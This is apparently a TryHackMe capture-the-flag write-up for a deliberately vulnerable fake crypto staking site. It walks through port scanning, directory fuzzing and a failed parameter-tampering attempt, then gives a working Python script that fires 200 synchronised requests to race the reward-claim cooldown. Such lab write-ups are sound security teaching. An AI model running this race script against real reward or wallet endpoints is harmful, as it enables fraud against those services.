








# TryHackMe — Towel on the Sunbed

| Field          | Details                                                                        |
| -------------- | ------------------------------------------------------------------------------ |
| **Platform**   | TryHackMe                                                                      |
| **Room**       | [Towel on the Sunbed](https://tryhackme.com/room/hh-towelonthesunbed-61271709) |
| **Difficulty** | Medium                                                                         |
| **Category**   | Web Exploitation, Race Condition, Business Logic                               |
| **OS**         | Linux                                                                          |

## Introduction

Towel on the Sunbed is a short web room built around a fake crypto staking site called Ponzi Portfolio. The whole challenge lives on a single web app. You register an account, you can claim a staking reward once every 24 hours, and there's a locked "Whale Vault" that only opens once your balance is high enough. The flag is inside that vault.

The catch is that a single reward is nowhere near enough to reach the threshold, and the app enforces the 24-hour cooldown server side. The intended path is a race condition against the claim endpoint. Fire enough concurrent requests before the cooldown flag gets written and several of them slip through, stacking your balance past the limit.

In this write-up I'll go through my methodology step by step, including the parameter-tampering dead end I hit before landing on the race condition.

---

## Table of Contents

- [Reconnaissance](#reconnaissance)
- [Web Enumeration](#web-enumeration)
- [Mapping the Claim Flow](#mapping-the-claim-flow)
- [Parameter Tampering (Dead End)](#parameter-tampering-dead-end)
- [Race Condition on /claim](#race-condition-on-claim)
- [Unlocking the Vault](#unlocking-the-vault)
- [Flags](#flags)
- [Key Takeaways](#key-takeaways)

---

## Reconnaissance

I started with a full TCP port scan to see what the box was running.

```bash
nmap -sS -vv -T4 -p- $target --min-rate 2000 -oN initial.txt
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-04 16:26 +0545
Nmap scan report for 10.48.180.94
Host is up, received reset ttl 62 (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 62
3000/tcp open  ppp     syn-ack ttl 62

Nmap done: 1 IP address (1 host up) scanned in 19.55 seconds
```

Only two ports open. SSH on 22 and something on 3000. Port 3000 is the usual home of a Node/Express app, so that's where I went.

---

## Web Enumeration

Before touching the app in the browser I ran ffuf to see what routes existed.

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://$target:3000/FUZZ -rate 2000 -t 200
```

```
css                     [Status: 301, Size: 153, Words: 6, Lines: 11, Duration: 108ms]
dashboard               [Status: 401, Size: 61, Words: 2, Lines: 1, Duration: 117ms]
js                      [Status: 301, Size: 152, Words: 6, Lines: 11, Duration: 74ms]
vault                   [Status: 401, Size: 61, Words: 2, Lines: 1, Duration: 102ms]
```

Not much surface area. Two static folders and two routes that return `401` until you're authenticated: `/dashboard` and `/vault`. The names alone tell the story. There's a dashboard behind login and a vault behind something stricter.

Visiting the site drops you on a login page. There's a register link, so I created a throwaway account.



Once logged in, the dashboard shows a portfolio balance of 0 PONZI, a "SHRIMP" tier badge, a live-looking market price table, a "Claim Reward" button, and a "Whale Vault" panel with an "Open Vault" button that's greyed out. The vault panel spells out the rule directly: reach 150 PONZI to unlock it.



I went straight to the `/vault` route to see what the gate looked like. Instead of a page it returned JSON:



So the vault checks the server-side balance on every request. There's no client-side trick to fake here. I actually needed the balance to reach 150.

---

## Mapping the Claim Flow

The dashboard pulls its state from an API endpoint, `/dashboard/api/me`. Looking at that response showed exactly how the backend models a user.



Clicking "Claim Reward" fires a `POST /claim`. The first claim went through cleanly and bumped the balance by 50.



Trying to claim a second time gets shut down. The server tracks the cooldown and returns a `429`.



So each account earns 50 PONZI per day and needs 150 to reach whale tier. Waiting out three real days was obviously not the intended solution. There had to be a way to get more than one claim to count.

---

## Parameter Tampering (Dead End)

The `/dashboard/api/me` response handed me a set of fields the backend cares about: `whaleThreshold`, `canClaim`, and `secondsUntilClaim`. My first instinct was that the claim endpoint might trust values sent by the client. If I could POST `canClaim: true` or reset the cooldown myself, I'd be done.

I resent the `POST /claim` request with those fields stuffed into the JSON body.



The server ignored them completely and still returned the same `429`. The cooldown state is derived entirely on the backend from the last claim time, not from anything the client sends. Parameter tampering was a dead end.

---

## Race Condition on /claim

Since the cooldown couldn't be forged, I looked at _when_ it gets set. A claim does two things: it credits the reward and it records that you've claimed so future requests get blocked. If those two steps aren't atomic, there's a window where many requests can all read "not claimed yet" before any of them writes "claimed." That's a classic race condition, and rewards or wallet logic is exactly where you go looking for one.

I grabbed my session cookie from the browser and wrote a small script to fire a burst of claims at the same instant. The key detail is the `threading.Barrier`, which makes every worker wait until all of them are ready and then release together, so the requests hit the server as simultaneously as possible.

```python
#!/usr/bin/env python3
import threading
from concurrent.futures import ThreadPoolExecutor
from collections import Counter

import requests

URL = "http://10.48.180.94:3000/claim"
COOKIE = "connect.sid=<SESSION_COOKIE>"
THREADS = 200

HEADERS = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Referer": "http://10.48.180.94:3000/dashboard",
    "Origin": "http://10.48.180.94:3000",
    "Connection": "keep-alive",
    "Cookie": COOKIE,
    "Content-Length": "0",
}

SUCCESS_MARKERS = ["success", "reward", "claimed", "newBalance"]


def fire():
    try:
        r = requests.post(URL, headers=HEADERS, timeout=10)
        return r.status_code, r.text[:200]
    except Exception as e:
        return -1, str(e)


barrier = threading.Barrier(THREADS)
results = []


def worker():
    barrier.wait(timeout=15)
    results.append(fire())


with ThreadPoolExecutor(max_workers=THREADS) as ex:
    [ex.submit(worker) for _ in range(THREADS)]

ok = [r for r in results if r[0] in (200, 201, 202)
      and any(m in r[1].lower() for m in SUCCESS_MARKERS)]
print("[+] %d/%d claims went through" % (len(ok), len(results)))
print("status breakdown:", Counter(r[0] for r in results))
for code, body in ok:
    print("  -> %s | %s" % (code, body))
```

Running it, 7 of the 200 requests came back with a `200` and a successful claim. The rest hit the `429` as expected. The window is small, but it's real.

```
[+] 7/200 claims went through
status breakdown: Counter({429: 193, 200: 7})
--- success responses:
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":100,"tier":"Dolphin","priceSnapshot":4.2}
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":150,"tier":"Whale","priceSnapshot":4.2}
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":300,"tier":"Whale","priceSnapshot":4.2}
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":250,"tier":"Whale","priceSnapshot":4.2}
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":350,"tier":"Whale","priceSnapshot":4.2}
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":350,"tier":"Whale","priceSnapshot":4.2}
  -> 200 | {"message":"Staking reward claimed successfully.","reward":50,"newBalance":350,"tier":"Whale","priceSnapshot":4.2}
```

The `newBalance` values are worth a second look. They don't climb in a clean 50, 100, 150 line. They jump around and repeat (350 shows up three times), which is the race itself leaking through. Several requests read the same starting balance and wrote back their own result, clobbering each other. The final balance settled at 350, well past the 150 needed for whale tier.

---

## Unlocking the Vault

Back on the dashboard, the balance now read 350 PONZI, the tier badge had flipped to WHALE, and the "Open Vault" button was live. Clicking it opened the vault and returned the flag.



That's the room. No shell, no privilege escalation, just a single business-logic flaw in the reward endpoint.

---

## Flags

| Flag   | Location                                     |
| ------ | -------------------------------------------- |
| `flag` | Whale Vault (unlocked at 150+ PONZI balance) |

---

## Key Takeaways

- **Rate limits and cooldowns are worthless if the check and the write aren't atomic.** The claim endpoint verified "have you claimed today" and updated the balance as separate steps. Firing concurrent requests slipped several claims through the same window before the cooldown flag was ever set.
- **Rewards, wallets, and voucher logic are prime race-condition targets.** Any endpoint that reads a balance, makes a decision, then writes an updated balance is worth testing with a burst of simultaneous requests.
- **Don't stop at parameter tampering.** Sending back `canClaim: true` felt like the obvious move, but the server derived that state itself and ignored the client. When the backend won't trust your input, look at timing instead.
- **A `threading.Barrier` makes race conditions reliable.** Releasing every worker at once, rather than just spamming requests in a loop, tightens the window and gives the race a real chance to fire.
